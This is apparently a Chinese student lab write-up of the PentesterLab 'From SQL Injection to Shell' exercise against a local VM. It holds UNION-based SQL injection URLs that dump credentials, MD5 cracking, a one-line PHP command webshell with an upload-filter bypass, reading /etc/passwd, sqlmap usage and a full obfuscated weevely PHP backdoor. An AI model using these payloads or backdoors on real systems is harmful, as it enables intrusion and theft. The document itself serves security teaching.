


 # chap0x07 从SQL注入到Shell 
 ## 1.环境配置
* 两台虚拟机
* Debian
    * 新建虚拟机时，添加虚拟光驱iso文件[from_sqli_to_shell_i386.iso](https://pentesterlab.com/exercises/from_sqli_to_shell)
    * 一块网卡，host-only模式，ip地址：192.168.56.5

        

* kali
    * 一块网卡。host-only模式，ip地址：192.168.56.6

        

* 进入实验环境

    kali浏览器地址栏输入Debian的ip地址

    

 ## 2.端口扫描及连接
 * 使用nmap扫描端口
    ```
    nmap -n -T4 192.168.56.5
    ```
    结果显示Debian的22端口和80端口为开放状态

    

* 使用nc尝试连接
    * 连接80端口，使用`GET / HTTP/1.1`发送HTTP GET请求

        

    * 连接22端口

        

    结果显示无法连接到80端口，使用telnet、openssl结果均相同。

    这里连接不成功也没关系，目的是获得HTTP报头，显然我们已经获取了足够的信息。

 ## 3.sql注入

1. 检查是否存在SQL注入漏洞

    以test页面为例，其URL为`http://192.168.56.5/cat.php?id=1`

    

    检查是否存在SQL注入漏洞，可在该URL末尾添加奇数个单引号：
    URL：`http://192.168.56.5/cat.php?id=1'`

    结果显示符号匹配错误：
    ```
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1 
    ```

    

    出现此类错误即说明该网站存在SQL注入漏洞。
    
    这里还可看到数据库类型为MySQL。

2. 获取SQL数据库相关信息
    1. 检查是否支持union查询

        以ruxcon页面：`http://192.168.56.5/cat.php?id=2`为例，该页面包含一张hacker图片：

        

        ```
        SELECT * FROM articles WHERE id=3 UNION SELECT ...
        ```
        从`1`开始，依次尝试`1`，`1,2`，`1,2,3`...

        URL：`http://192.168.56.5/cat.php?id=2 UNION SELECT 1`

        结果显示：
        ```
        The used SELECT statements have a different number of columns
        ```

        

        这里尝试到4时，发现原本的页面出现，且新增内容picture：2，由于联合查询要求多条查询语句的查询列数一致，说明该数据库的列数为4。

        URL：`http://192.168.56.5/cat.php?id=2 UNION SELECT 1,2,3,4`

        

    2. 检查是否支持ORDER BY查询

        以2010页面：`http://192.168.56.5/cat.php?id=3`为例，该页面没有任何内容

        

        数字逐步尝试，到`ORDER BY 4`时，页面仍未有变化。

        

        `ORDER BY 5`，出现错误信息`Unknown column '5' in 'order clause' `，同样可说明该数据库列数为4。

        

    3. 获取数据库版本信息

        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1,@@version,3,4`

        显示数据库版本信息：`5.1.63-0+squeeze1`

        

    4. 获取当前用户信息

        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1,current_user(),3,4`

        显示当前用户：`pentesterlab@localhost`

        

    5. 获取操作系统版本信息

        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1，@@version_compile_os,3,4`

        显示操作系统版本：`debian-linux-gnu`

        

    6. 获取当前数据库

        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1,database(),3,4`

        显示当前数据库：`photoblog`

        

    7. 获取所有表名

        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`

        

        可看到所有表名（截图未完全展示）。

    8. 获取所有列名

        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

        

        可看到所有列名（截图未完全展示）。

    9. 获取表名与列名的对应关系

        知道了所有表名和列名还不够，还需要知道哪些列属于哪些表。

        使用关键字CONCAT连接对应的表名和列名：

        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`

        这里使用`:`作为表名与列名的分隔符。

        

    10. 获取网站可用用户名和对应密码
        
        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1,concat(login,': ',password),3,4 FROM users`

        

        得到一组可用用户名与密码：
        * 用户名：admin
        * 加密后密码：8efe310f9ab3efeae8d410a8e0166eb2

## 4.密码破解
* 给出两种方法可试
    * 搜索引擎直接搜索哈希值

        大概是PentesterLab上的这个实验太多人做过了，用百度搜索提供的哈希值可直接查到加密方式是MD5，破解得到的密码为`P4ssw0rd`

        [MD5破解结果](https://md5.gromweb.com/?md5=8efe310f9ab3efeae8d410a8e0166eb2)

        

    * [John-The-Ripper](http://www.openwall.com/john/)

        John-The-Ripper也需要事先知晓采用的是何种加密算法。

* 破解后登录

    在`http://192.168.56.5/admin/login.php`页面，使用用户名：`admin`，密码：`P4ssw0rd`登录，登录成功。

    

## 5. 简单webshell
1. 创建一个简单的PHP脚本`shell.php`
    ```php
    <?php
    system($_GET['cmd']);
    ?>
    ```
    用于实现在命令行cmd中执行命令并返回结果。

2. 上传到网页

* 登录后页面显示可以`Add a new picture`，利用这个上传功能安装后门。
    * 直接上传php文件

        

        上传失败，显示错误信息：`NO PHP!!`

        
        
        目标网站禁止了上传.php文件。

    * 重命名文件扩展名大法

        利用了[Apache 服务器的解析漏洞](http://sec.cuc.edu.cn/huangwei/textbook/ns/chap0x07/main.html#7612-%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C)
        * `.php3`
        * `.php.test`

        均可上传成功。
        
        

3. 查看webshell
    
    找到上传的PHP脚本的位置，可访问新上传的图像的网页，查看img标记：

    

    可以看到：`src="admin/uploads/shell.php3"`

    尝试输入URL：`http://192.168.56.5/admin/uploads/shell.php3?cmd=uname`

    发现命令行运行了`uname`指令并返回了当前内核版本

    

    其它指令：
    * `cat /etc/passwd`，查看所有拥有系统访问权的注册用户。

        

    * `uname -a`，查看当前内核版本详细信息

        

    * `ls` 查看当前目录下内容

        

    * `ls /etc`，查看etc目录下内容

        

## 6. sqlmap

sqlmap--一款开源渗透测试工具，可自动检测和利用SQL注入缺陷以及接管数据库服务器。

找到kali内置sqlmap的位置，查看帮助文档。

这里选取一些输出展示：
```
# python /usr/bin/sqlmap -h
       ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.7#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST
    --cookie=COOKIE     HTTP Cookie header value
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables. Moreover you can run your own SQL statements

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  Miscellaneous:
    --sqlmap-shell      Prompt for an interactive sqlmap shell
    --wizard            Simple wizard interface for beginner users

```
以`--tables`参数为例
```
# -u：URL
python /user/bin/sqlmap -u "http://192.168.56.5/cat.php?id=1" --tables
```
可以看到已经获取到了数据库表信息：
```
Database: photoblog
[3 tables]
+---------------------------------------+
| categories                            |
| pictures                              |
| users                                 |
+---------------------------------------+

Database: information_schema
[28 tables]
+---------------------------------------+
| CHARACTER_SETS                        |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
| GLOBAL_STATUS                         |
| GLOBAL_VARIABLES                      |
| KEY_COLUMN_USAGE                      |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| PROFILING                             |
| REFERENTIAL_CONSTRAINTS               |
| ROUTINES                              |
| SCHEMATA                              |
| SCHEMA_PRIVILEGES                     |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| STATISTICS                            |
| TABLES                                |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TRIGGERS                              |
| USER_PRIVILEGES                       |
| VIEWS                                 |
+---------------------------------------+
```
其它参数的使用都可不同程度获取到与手工注入SQL相同的信息。

一番尝试下来，sqlmap的功能还是很强大的。

## 7. 高级webshell一例
* weevely

    weevely：一款使用python编写的webshell工具，集webshell生成和连接于一身，采用c/s模式构建，可以算作是linux下的一款php菜刀替代工具，具有很好的隐蔽性（生成随机参数且base64加密）。
    ```
    # weevely -h
    usage: weevely [-h] {terminal,session,generate} ...

    positional arguments:
    {terminal,session,generate}
        terminal            Run terminal
        session             Recover an existant a session file
        generate            Generate a new password

    optional arguments:
    -h, --help            show this help message and exit
    ```
    * 自动生成后门.php文件

        在终端使用`weevely generate passwd backdoor.php`生成一个密码为`passwd`的后门文件并保存在当前目录中的backdoor.php。

        **注**：weeevely还可生成`.htaccess`后门、`.img`图片后门，不过都需要服务器开启.htaccess支持，因为该后门依赖于在.htaccess中使web服务器对图片文件进行php解析。
        
        [关于.htaccess文件](http://www.cnblogs.com/adforce/archive/2012/11/23/2784664.html)

        查看一下直接生成的后门.php文件
        ```
        leafpad /usr/share/weevely/backdoor.php
        ```
        ```php
        <?php
        $S='nts();<1ob_end_clean();$d=<1base6<14<1<1_encode(x(<1gzc<1o<1mpre<1ss($o),$k));print<1("<$k>$d<<1/$k<1>")<1;@session_d<1estroy();}}}}';
        $w='<1)<1;$q=array_values($q);<1preg_<1match_a<1<1ll("/([\\w]<1)[\\w-]+(?<1:;q=0.<1([\\d<1]))?,?<1/",<1$<1ra<1,$m);if($q&&$m<1){@';
        $H='m[2][<1$z]];if(s<1trpos<1($p,$h)==<1=0){$s[<1$i]<1="";$p=$ss<1($p,3)<1;}i<1f(a<1r<1ray<1_key_exists(<1$i,$s)){<1$s[$i].=';
        $r='s(m<1<1d5<1($<1i<1.$kh),0,3));$f=$sl($<1ss(md5($i.<1$<1kf),0,3));$p="";f<1or<1($z=1;$z<coun<1t(<1$<1m[1])<1<1;$z<1++)$p.=$q[$';
        $p='session_s<1t<1art()<1;$s<1=&$_SES<1SION;$ss="substr<1";$sl=<1"<1strtol<1ower"<1;$i=$m[1]<1[0].$<1m[1][1];$h<1=$sl(<1<1$s';
        $K='r($j=0<1;($j<$c&<1&$i<1<$l);$j++<1,$i++)<1{$o.=<1$t{<1$i}^$k<1<1{$j};<1}<1}return $o;}$r=$_<1S<1<1ERVER;$rr=@$r["HTTP_<1REFERE';
        $z='<1<1R"]<1;$ra=@$r["HTTP_AC<1C<1EPT_LANG<1U<1A<1GE"];if($rr&<1<1&$ra)<1{<1$u=parse_u<1rl($rr);parse_str($u[<1"<1<1query"]<1,$q';
        $J=str_replace('I','','crIeIIateI_funIcItion');
        $j='$p;$<1e<1=s<1trpos($s[<1<1$i],<1$f);if($e){$k=$<1kh<1.$kf;ob_start();@<1e<1val<1(@gzuncompre<1ss<1(@x(@base<164<1<1<1_dec';
        $L='ode(preg_replace(<1array<1<1("/_/<1","/-/"),<1array("/","+"),<1$ss<1($s[$i]<1,0,$e)))<1<1,$k)<1));$o<1=ob_<1g<1et_conte<1';
        $b='$<1kh="098f";$k<1f="6bc<1d";functi<1on x($<1t,$<1k){$c<1=strlen($k)<1;$l=st<1<1rle<1n($t);$o="";f<1or(<1$i=0;<1$i<$l;<1){fo';
        $Y=str_replace('<1','',$b.$K.$z.$w.$p.$r.$H.$j.$L.$S);
        $v=$J('',$Y);$v();
        ?>

        ```
        多次生成可以发现，代码中变量名是随机生成的，由两到三个随机字符组成（不包含下划线）。
    * 上传后门
        ```
        weevely http://192.168.56.5/backdoor.php passwd
        ```
        这里上传失败了，猜测是因为目标网站`http://192.168.56.5`只有`http://192.168.56.5/admin/new.php`页面是允许上传文件的，而该页面需要用户登录才可达。将文件后缀名改为.php3也会出现同样的错误。

        

## 参考资料
* [PentesterLab - From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
* [2018-NS-Public-jckling](https://github.com/CUCCS/2018-NS-Public-jckling/blob/ns-0x07/ns-0x07/实验报告.md)
* [sql注入步骤](https://www.exploit-db.com/papers/13650/)
* [textbook/ns/chap0x07](https://sec.cuc.edu.cn/huangwei/textbook/ns/chap0x07/main.html)
* [sqlmap官方文档](http://sqlmap.org/)
* [weevely3 - Github](https://github.com/epinna/weevely3)
* [weevely入手使用笔记 ](https://www.cnblogs.com/lingerhk/p/4009073.html)
